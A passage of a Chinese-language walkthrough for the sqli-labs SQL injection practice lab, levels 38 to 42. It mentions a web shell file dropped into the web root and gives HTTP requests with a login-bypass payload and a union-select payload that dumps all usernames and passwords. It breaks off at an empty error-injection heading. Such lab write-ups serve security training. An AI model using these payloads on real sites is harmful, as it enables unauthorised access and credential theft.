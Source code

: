 此时已经成功写入了，但是因为这个文件属于 mysql 用户组的，测试并没有成功执行：

```bash
$ ls -l  /var/www/html/shell.php
-rw-rw---- 1 mysql mysql 171 May 17 08:47 /var/www/html/shell.php
```

# Less-39

和 Less-38 相比没有啥区别，只是拼接方式不一样。同上题，只不过没有单引号 

# Less-40

和 Less-38 相比没有啥区别，只是拼接方式不一样。同上题，只不过加上单引号和右括号 ‘) 

# Less-41

和 Less-39 类似，因为少了报错输出，所以这里不能报错注入，其他注入方式一样

# Less-42

这一题漏洞比较多，首先 login.php 中 password 没有过滤，可以进行常规的报错注入以及盲注，同时本身又支持堆叠查询，所以也支持堆叠注入。 pass_change.php update 语句存在漏洞，典型的二次注入，类似于 Less-24

### 经典的**万能密码**绕过 `1' or 1#`:

```http
POST /Less-42/login.php HTTP/1.1
...

login_user=admin&login_password=1' or 1#&mysubmit=Login
```

因为登录成功后返回：

```php
return $row[1];
```

所以登录了 id 为 1 的 Dumb 用户

### 尝试**联合查询**:

```http
POST /Less-42/login.php HTTP/1.1
...

login_user=admin&login_password=1' union select 1,(SELECT(@x)FROM(SELECT(@x:=0x00) ,(SELECT(@x)FROM(users)WHERE(@x)IN(@x:=CONCAT(0x20,@x,username,password,0x3c62723e))))x),3#&mysubmit=Login
```

### **报错注入**：
